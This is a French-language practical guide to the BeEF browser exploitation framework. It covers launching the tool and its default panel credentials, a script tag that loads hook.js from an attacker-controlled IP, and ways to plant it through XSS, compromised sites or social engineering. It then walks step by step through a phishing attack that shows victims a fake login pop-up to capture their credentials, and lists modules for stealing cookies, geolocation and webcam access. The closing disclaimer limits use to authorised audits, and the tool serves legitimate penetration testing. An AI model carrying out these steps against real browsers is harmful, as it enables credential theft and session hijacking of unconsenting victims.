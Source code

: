 # 🐄 BeEF : Le Guide Pratique

BeEF (Browser Exploitation Framework) est un outil qui se concentre sur le navigateur web. L'idée est de "hameçonner" (to hook) un navigateur pour ensuite pouvoir lancer des actions à distance depuis le panel de contrôle de BeEF.

## 🚀 Démarrage et Accès

```bash
# Naviguer vers le dossier d'installation et lancer BeEF
cd /usr/share/beef-xss/
sudo ./beef
```

| Interface | URL | Identifiants par défaut |
|---|---|---|
| Panel de contrôle | `http://127.0.0.1:3000/ui/panel` | `beef` / `beef` |
| Hook de démo | `http://127.0.0.1:3000/demos/basic.html` | (Page pour tester le hook) |

## 🔥 Le Principe du "Hook"

Pour que BeEF fonctionne, vous devez faire en sorte qu'une victime exécute ce simple script JavaScript dans son navigateur :

```html
<script src="http://<VOTRE_IP>:3000/hook.js"></script>
```

**Comment faire ?**
- **Via une faille XSS :** C'est la méthode la plus courante. Si vous trouvez une faille XSS sur un site, vous y injectez ce script.
- **Page web compromise :** Si vous avez le contrôle d'un site web, vous pouvez ajouter le script à ses pages.
- **Ingénierie sociale :** Envoyer un lien vers une page que vous contrôlez et qui contient le script.

## 🎯 Workflow d'une Attaque de Phishing

Voici comment utiliser BeEF pour voler des identifiants avec une fausse pop-up de connexion.

1.  **Hameçonner un navigateur**
    - Lancez BeEF.
    - Faites en sorte que votre victime (ou vous-même, pour un test) visite une page contenant le `hook.js`.
    - Le navigateur de la victime apparaîtra dans le panneau de gauche de BeEF, sous "Hooked Browsers".

2.  **Choisir un module**
    - Cliquez sur le navigateur hameçonné.
    - Allez dans l'onglet `Commands`.
    - Naviguez vers `Social Engineering > Pretty Theft`.

3.  **Configurer et Lancer l'Attaque**
    - Dans les options du module "Pretty Theft", choisissez le type de pop-up que vous voulez afficher (Facebook, LinkedIn, YouTube, etc.).
    - Cliquez sur `Execute`.

4.  **Récolter les identifiants**
    - Une fausse fenêtre de connexion s'affichera dans le navigateur de la victime.
    - Si la victime entre ses identifiants, ils seront capturés et affichés dans les résultats du module, dans votre panel BeEF.

## ⚡ Autres Modules Intéressants

- **Get Cookies :** Vole les cookies de session du navigateur hameçonné.
- **Webcam :** Tente d'activer la webcam de la victime (nécessite une autorisation de l'utilisateur).
- **Get Geolocation :** Tente de récupérer la position géographique de la victime.
- **Replace HREFs :** Remplace tous les liens de la page par une URL de votre choix.

---
> ⚠️ **USAGE ÉTHIQUE UNIQUEMENT** : N'utilisez BeEF que dans le cadre d'audits autorisés. C'est un outil puissant pour démontrer l'impact d'une faille XSS.
